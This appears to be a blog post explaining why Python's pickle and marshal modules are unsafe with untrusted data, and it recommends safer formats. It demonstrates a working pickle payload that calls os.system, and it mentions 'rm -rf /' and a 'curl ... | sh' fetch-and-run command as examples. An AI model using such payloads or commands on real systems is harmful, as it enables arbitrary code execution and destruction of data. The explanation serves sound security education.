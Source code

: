 ```yaml
---
title: "Security of Python’s pickle and marshal modules"
tags: ['Python', 'Security']
---
```


Both the [`pickle`][pickle] and [`marshal`][marshal] modules come with a similar
big red warning:

> The pickle module is not secure against erroneous or maliciously constructed
> data. Never unpickle data received from an untrusted or unauthenticated
> source.

> The marshal module is not intended to be secure against erroneous or
> maliciously constructed data. Never unmarshal data received from an untrusted
> or unauthenticated source.

Lets see why.

Marshal
-------

There are no **known** ways to exploit `marshal`. Executing code when using
`marshal.loads()` is not something I was able to do, and looking at the
`marhal.c` source code, I don't see an immediately obvious way.

So why is this warning here? [The BDFL explains][bfdl]:

> BTW the warning for marshal is legit -- the C code that unpacks marshal data
> has not been carefully analyzed against buffer overflows and so on. Remember
> the first time someone broke into a system through a malicious JPEG? The same
> could happen with marshal. Seriously.

I recommend you read the rest of the discussion; a bug is shown where
unmarshaling data causes Python to segfault; this has been fixed since Python
2.5 (this bug can, potentially, be abused to execute code). Other bugs *may*
still exist, though!

Furthermore, the `marshal` docs mention:

> This is not a general “persistence” module. [..]  The marshal module exists
> mainly to support reading and writing the “pseudo-compiled” code for Python
> modules of .pyc files.

So it's not even designed to persist data in a reliable way.

Pickle
------

You can easily execute arbitrary code with `pickle`. For example:

    >>> import pickle
    >>> pickle.loads(b"cos\nsystem\n(S'ls /'\ntR.")
    bin   data  download  home  lib64       mnt  proc  run   srv  tmp     usr      var
    boot  dev   etc       lib   lost+found  opt  root  sbin  sys  ubuntu  vagrant
    0

This is a harmless `ls /`, but can also be a less harmless `rm -rf /`, or a
`curl http://example.com/hack.sh | sh`.

You can see how this works by using the `pickletools` module:

    >>> import pickletools
    >>> pickletools.dis(b"cos\nsystem\n(S'ls /'\ntR.")
        0: c    GLOBAL     'os system'
       11: (    MARK
       12: S        STRING     'ls /'
       20: t        TUPLE      (MARK at 11)
       21: R    REDUCE
       22: .    STOP

`pickle.py` has some comments on what these opcodes mean:

    GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
    MARK           = b'('   # push special markobject on stack
    STRING         = b'S'   # push string; NL-terminated string argument
    TUPLE          = b't'   # build tuple from topmost stack items
    REDUCE         = b'R'   # apply callable to argtuple, both on stack
    STOP           = b'.'   # every pickle ends with STOP

Most of it is self-explanatory; with `GLOBAL` you can get any function, and
with `REDUCE` you call it.

Since Python is pretty dynamic, you can also use this to monkey-patch a program
in run-time. For example, you can change the `check_password` function with one
where you upload the password to a server.

So what *is* secure?
--------------------

XML, json, MessagePack, ini files, or perhaps something else. It depends on
which format is the best in your situation.

Has this code been "carefully analyzed against buffer overflows and so on"? Who
knows. Most code hasn't, and C makes it easy to do things wrong.[^1] Even Python
code may be vulnerable, as it [may call functions implemented in C that are
vulnerable](http://www.cvedetails.com/product/18230/Python-Python.html?vendor_id=10210).

There [have been problems with Python's JSON module][json-cve]. But at the same
time, it's used a lot in public-facing apps, so it's *probably* safe. It'll
certainly be safer than `marshal`, since this was only designed for `.pyc` files
and explicitly comes with a "not audited!" warning.

This is no guarantee. Remember that [YAML security hole a few years back that
caused every Ruby on Rails application in the world to be vulnerable to
arbitrary code execution][yaml-oops]. Oops! And this wasn't even a subtle buffer
overflow, but a much more obvious problem.

You should *not* use [yaml][yaml]'s `load()` method, as this has [the same
problems as Ruby's YAML][no-yaml]. Use `safe_load()` instead.

Conclusion
----------

The warning in the `pickle` module is very much warranted (it should be stated
stronger), while the warning above the `marshal` module is more of a "*this code
was not designed with security in mind*"-type of warning, but actually
exploiting it is not as easy and relies on the hypothetical existence on unknown
bugs. Still, you're probably better off using something else.

[^1]: There really ought to be a "carefully analyzed against buffer overflows and so on" seal of trust for open source projects. Yeah, you can shelf out the big bucks and get your code analyzed by Veracode and such, but this is not feasible for open source projects. There is *some* effort to do this after the OpenSSL Heartbleed clusterfuck a few years ago in the form of the [Core Infrastructure Initiative](https://en.wikipedia.org/wiki/Core_Infrastructure_Initiative), but its scope and budget are limited (but it's young, and may gain traction in a few years).

[marshal]: https://docs.python.org/3/library/marshal.html
[pickle]: https://docs.python.org/3/library/pickle.html
[yaml]: http://pyyaml.org/
[yaml-oops]: http://www.kalzumeus.com/2013/01/31/what-the-rails-security-issue-means-for-your-startup/
[no-yaml]: http://nedbatchelder.com/blog/201302/war_is_peace.html
[json-cve]: https://access.redhat.com/security/cve/CVE-2014-4616
[bfdl]: http://grokbase.com/t/python/python-ideas/083532w3t7/an-official-complaint-regarding-the-marshal-and-pickle-documentation#20080305gvdndfl4m3f2u6cmpxvrclfcou
